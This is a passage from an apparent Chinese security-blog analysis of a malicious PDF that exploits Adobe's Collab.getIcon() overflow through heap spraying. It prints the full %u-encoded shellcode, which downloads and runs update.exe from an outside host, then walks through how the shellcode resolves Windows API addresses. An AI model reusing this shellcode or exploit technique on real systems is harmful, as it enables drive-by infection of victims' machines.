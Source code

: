 如何，上述代码是否非常眼熟？对了，随便找一个堆喷的js代码都是如此。这个PDF实际上是利用了PDF的`app.doc.Collab.getIcon()`函数的溢出漏洞，该函数没有对文件名长度进行检查，直接拷贝进了缓冲区，是一个经典的溢出漏洞。利用时文件名需要加上特定的表示，例如下图中N.doc，否则无法走入有漏洞的部分。Adobe JavaScript中使用堆喷在当时效果非常稳定：

![enter image description here](http://drops.javaweb.org/uploads/images/1cb58491ddc068e18f037f0ec5036a1acf7f1fef.jpg)

具体细节网上有分析过程，在此不提了，Shellcode可以简单看一下。

提取出来的shellcode如下：

```
%u5350%u5251%u5756%u9c55%u00e8%u0000%u5d00%ued83%u310d%u64c0%u4003%u7830%u8b0c%u0c40%u708b%uad1c%u408b%ueb08%u8b09%u3440%u408d%u8b7c%u3c40%u5756%u5ebe%u0001%u0100%ubfee%u014e%u0000%uef01%ud6e8%u0001%u5f00%u895e%u81ea%u5ec2%u0001%u5200%u8068%u0000%uff00%u4e95%u0001%u8900%u81ea%u5ec2%u0001%u3100%u01f6%u8ac2%u359c%u0263%u0000%ufb80%u7400%u8806%u321c%ueb46%uc6ee%u3204%u8900%u81ea%u45c2%u0002%u5200%u95ff%u0152%u0000%uea89%uc281%u0250%u0000%u5052%u95ff%u0156%u0000%u006a%u006a%uea89%uc281%u015e%u0000%u8952%u81ea%u78c2%u0002%u5200%u006a%ud0ff%u056a%uea89%uc281%u015e%u0000%uff52%u5a95%u0001%u8900%u81ea%u5ec2%u0001%u5200%u8068%u0000%uff00%u4e95%u0001%u8900%u81ea%u5ec2%u0001%u3100%u01f6%u8ac2%u359c%u026e%u0000%ufb80%u7400%u8806%u321c%ueb46%uc6ee%u3204%u8900%u81ea%u45c2%u0002%u5200%u95ff%u0152%u0000%uea89%uc281%u0250%u0000%u5052%u95ff%u0156%u0000%u006a%u006a%uea89%uc281%u015e%u0000%u8952%u81ea%ua6c2%u0002%u5200%u006a%ud0ff%u056a%uea89%uc281%u015e%u0000%uff52%u5a95%u0001%u9d00%u5f5d%u5a5e%u5b59%uc358%u0000%u0000%u0000%u0000%u0000%u0000%u0000%u0000%u6547%u5474%u6d65%u5070%u7461%u4168%u4c00%u616f%u4c64%u6269%u6172%u7972%u0041%u6547%u5074%u6f72%u4163%u6464%u6572%u7373%u5700%u6e69%u7845%u6365%ubb00%uf289%uf789%uc030%u75ae%u29fd%u89f7%u31f9%ubec0%u003c%u0000%ub503%u021b%u0000%uad66%u8503%u021b%u0000%u708b%u8378%u1cc6%ub503%u021b%u0000%ubd8d%u021f%u0000%u03ad%u1b85%u0002%uab00%u03ad%u1b85%u0002%u5000%uadab%u8503%u021b%u0000%u5eab%udb31%u56ad%u8503%u021b%u0000%uc689%ud789%ufc51%ua6f3%u7459%u5e04%ueb43%u5ee9%ud193%u03e0%u2785%u0002%u3100%u96f6%uad66%ue0c1%u0302%u1f85%u0002%u8900%uadc6%u8503%u021b%u0000%uebc3%u0010%u0000%u0000%u0000%u0000%u0000%u0000%u0000%u8900%u1b85%u0002%u5600%ue857%uff58%uffff%u5e5f%u01ab%u80ce%ubb3e%u0274%uedeb%u55c3%u4c52%u4f4d%u2e4e%u4c44%u004c%u5255%u444c%u776f%u6c6e%u616f%u5464%u466f%u6c69%u4165%u7500%u6470%u7461%u2e65%u7865%u0065%u7263%u7361%u2e68%u6870%u0070%u7468%u7074%u2f3a%u692f%u6b6e%u616b%u2e6b%u6e63%u652f%u746e%u7265%u752f%u6470%u7461%u2e65%u6870%u3f70%u6469%u333d%u7226%u7465%u6f3d%u006b%u9000

```

![enter image description here](http://drops.javaweb.org/uploads/images/d4834b508878b3ab551a1a60f845959e3f1220db.jpg)

通过简单处理可以看到就是简单的`URLDownloadToFile`，由于这里`%u0000`不会影响流程，所以支持带0的shellcode使得它的体积缩小了很多。简单调试一下吧。将shellcode附着到exe之后（附件malicious2.exe.txt）。

代码十分简单：

![enter image description here](http://drops.javaweb.org/uploads/images/2fdfbbcc9f8a5012308ad58ffa3bbf0ee70a29eb.jpg)

首先PUSHAD PUSHFD，然后使用POP EBP，SUB EBP,0D来构造一个栈帧。

![enter image description here](http://drops.javaweb.org/uploads/images/8f6dbc9353dd6f7be72a6112bc163ce95d9f23ac.jpg)

接着又是常见的fs:30、0c、1c、8、34这些常见的值，后面的内容不言自明，我们可以锻炼一下静态阅读，具体动作如下：

![enter image description here](http://drops.javaweb.org/uploads/images/b9fde58d3540b9007c1d0c2261fe1b0e46a82f64.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/6b78373c150b603d54287ccc87a82d0320beb3ea.jpg)

也即跟着查找GetTempPathA（ebp+15e）等等函数的地址并保存在ebp+14e处。
